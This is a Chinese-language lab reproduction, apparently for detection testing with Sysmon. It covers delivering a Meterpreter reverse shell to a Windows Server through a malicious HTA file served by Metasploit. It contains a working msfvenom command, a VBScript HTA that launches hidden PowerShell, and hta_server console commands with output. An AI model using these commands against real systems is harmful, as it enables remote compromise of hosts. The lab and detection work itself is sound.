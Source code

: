 ## 测试复现

### 测试环境

- **攻击机**：Kali Linux 2019，IP：192.168.126.146
- **靶机**：Windows Server 2012，IP：192.168.126.156，Sysmon已部署，.NET Framework 3.5安装
- **工具**：Metasploit（`msfvenom`和`exploit/windows/misc/hta_server`）

### 测试过程

#### 1. 生成恶意HTA（攻击机）

**命令**：
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=4444 -f hta-psh -o Uj6Tcv.hta
```

**说明**：
- 生成PowerShell封装的Meterpreter反向Shell HTA文件，保存为`Uj6Tcv.hta`。
- 示例HTA内容（简化）：
  ```html
  <html>
  <head>
  <script language="VBScript">
  Set shell = CreateObject("WScript.Shell")
  shell.Run "powershell.exe -nop -w hidden -c <Base64-encoded Meterpreter Payload>"
  Self.Close
  </script>
  </head>
  </html>
  ```

#### 2. 配置Metasploit HTA服务器（攻击机）

**命令**：
```bash
msfconsole
use exploit/windows/misc/hta_server
set LHOST 192.168.126.146
set SRVHOST 192.168.126.146
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 4444
exploit
```

**输出**：
```
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 192.168.126.146:4444
[*] Using URL: http://192.168.126.146:8080/Uj6Tcv.hta
[*] Server started.
```
